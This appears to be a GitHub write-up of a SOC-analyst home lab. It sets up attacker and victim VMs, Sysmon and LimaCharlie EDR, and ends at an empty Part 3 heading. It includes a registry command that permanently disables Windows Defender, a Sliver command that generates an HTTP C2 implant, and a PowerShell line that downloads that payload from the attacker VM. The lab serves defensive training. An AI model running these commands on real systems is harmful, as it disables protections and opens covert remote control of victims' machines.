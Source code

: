 # So You Want to be a SOC Analyst
Link to the Project (https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

## Objective
1. Setting up and managing a SOC environment.

2. Understanding how to detect, analyze, and respond to cyber threats.

3. Developing and tuning detection rules to identify malicious activities.

4. Learning how to implement threat mitigation strategies.

### Skills Learned

1.SOC Environment setup

2.Threat Dectection and Analysis

3.Rule Creation and Tuning

4.Incident Response and Mitigation

5.YARA scanning

6.Threat Intelligence and reporting

### Tools Used
1. Virtualization Software

2. Security Information and Event Management (SIEM) tools

3. Network Monitoring 

4. YARA

5. Kali Linux 

## Steps
# PART 1. 
The first step was to set up the virtual environment. For this project "VMware Workstation Pro" by Broadcom was the software used. 

Ubuntu Server 22.04.1 ISO was the version used because this version comes pre Installed with necessary packages to do this project.

The VM Workstation created had the following specs: 14GB Disk size, 2 CPU cores, and 2GB RAM.

After downloading and setting everything up, I encountered my first error. I had to make sure DNS and outbound pings are working.


## This is what it is supposed to look like


![Screenshot (3)](https://github.com/user-attachments/assets/2565610e-979d-446e-99b8-ef3b094732ad)


## This is what I got

![Screenshot (2)](https://github.com/user-attachments/assets/ec614aca-52e4-477e-9de6-83bddb195d7c)

Seeing the response I noticed that I did not add a name server. To resolve the issue I entered the following command: 


sudo nano /etc/resolv.conf 


This allowed me to add a name server. I entered in 8.8.8.8 because it refers to one of Googles public DNS servers.


![Screenshot (4)](https://github.com/user-attachments/assets/87f0b3ad-9bb7-47e8-8401-b5bd41c820c1)

it started to work after the change.

![Screenshot (5)](https://github.com/user-attachments/assets/fe241b07-600a-4d1a-9b74-11c7776b2dec)


This Unbuntu VM will act as an attacker. Now that everything is working, I started to set up the windows VM. 

The link for the windows VM was not working so I  settled for a windows 11 x64 VM. After setting everything up, I disabled windows defender.

![Screenshot (6)](https://github.com/user-attachments/assets/2da84f22-48ab-48e5-a58a-17c487c0eb7b)

Ran the command to permanently disable defender via registry: 

REG ADD "hklm\software\policies\microsoft\windows defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f 

![Screenshot (7)](https://github.com/user-attachments/assets/1193917a-3529-4f9f-92f0-ba7eb4135684)

Now in safe mode, change the 7 sevices from 3 to 4.

![Screenshot (8)](https://github.com/user-attachments/assets/98048272-b3fc-4804-a79e-123731245f17)

Exit safe mode and it should be defender free.

Next I had to Install Sysmon which is a analyst tool.

 ![Screenshot (9)](https://github.com/user-attachments/assets/048b935d-f6b8-402c-bcb3-13300d366bb1)


LimaCharlie EDR is next to download. I had a little hiccup here. I had to put Lc_sensor.exe before the command line. I also had to enter DIR command to make sure lc_sensor.exe was there. It'll give an error message if lc_sensor.exe is entered in before the downloaded executable.

![Screenshot (10)](https://github.com/user-attachments/assets/9b6e2b30-f9ef-49d2-ab4a-b85c0c0ae42d)

Next was back to the attack system. I had to download sliver Linux server binary and create a directory for the future steps.


![Screenshot (11)](https://github.com/user-attachments/assets/d40b7860-deff-4c72-8783-067de2f4313d)

## Part 2 
generating C2 payload is next. I opened sliver server and entered the following command to generate payload:

generate --http [Linux_VM_IP] --save /opt/sliver

I also entered the command "implants" to confirm the implant configuration

![Screenshot (14)](https://github.com/user-attachments/assets/6be2b68a-9a64-4246-9c1d-2d05de389dcb)

Then I went back to the windows VM to download the C2 payload. In the windows command I entered the following command:

IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe


![Screenshot (15)](https://github.com/user-attachments/assets/6df9c14b-8cd7-4b60-ae17-414003419d7c)

Next is to start the command and control session. I went to the linux VM and enetered the command "http" which is the listener. In the wiundows VM, enter the download location of the executable (C:\Users\User\Downloads\<your_C2-implant>.exe) and the linux VM will pick it up.


![Screenshot (17)](https://github.com/user-attachments/assets/413b4899-32a1-4bcc-a790-3b5ef7d3889c)

I entered the "use" command to interact with the C2 session. Now that the linux VM is linked with the Windows, I went to Lima charlie to examine the EDR telemetry and to see if the C2 implant was present.


![Screenshot (19)](https://github.com/user-attachments/assets/98a6d627-e8a9-426b-8eb5-4bf4c50ed02f)

I also observed the timeline that shows window event logs(WEL) and EDR telemetry (NETWORK_CONNECTIONS)


![Screenshot (20)](https://github.com/user-attachments/assets/57a508ca-8069-493c-a930-6a9290061431)

## PART 3


